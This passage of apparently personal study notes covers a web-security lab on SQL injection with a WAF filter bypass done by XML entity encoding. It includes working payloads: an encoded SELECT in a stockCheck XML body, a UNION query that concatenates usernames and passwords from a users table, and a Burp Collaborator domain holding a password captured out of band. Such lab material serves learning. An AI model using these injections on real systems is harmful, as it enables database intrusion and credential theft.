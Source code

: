 This lookup allow you to see captured password
```sql
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```


## SQL injection w/ filter bypass using XML encoding
- you can perform SQL injection attacks using any controllable input that is processed as a SQL query by the app
- some websites take JSON or XML input format to query db
- different formats = different ways to obfuscate attack that are blocked by WAFs

XML-based SQL injection uses an XML escape sequence to encode the `S` character in `SELECT`
- server will decoded server-side before being passed to the SQL interpreter
```xml
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```

`Lab`
First of all look for input vectors that can potentially talk to the back-end
![[Pasted image 20241106043435.png]]

After pressing on UI "Check Stock" button, we have new request to db
![[Pasted image 20241106043543.png]]

![[Pasted image 20241106043623.png]]

It takes:
- productId
- storeId

`When the vulnerability exist?`
- if the input is not properly parameterized

Test
![[Pasted image 20241106043846.png]]

Obfuscating input with `Hackvertor`
	Encode to hex_entities
![[Pasted image 20241106044135.png]]

How many columns are there?
	there is only 1 columns, since by adding the second `NULL` value we aren't getting response with the right amount of units
![[Pasted image 20241106044245.png]]

Now in order to output `username` and `password` in a single column - you have to concatenate them
	1 UNION SELECT username || '~' || password FROM users
![[Pasted image 20241106044617.png]]
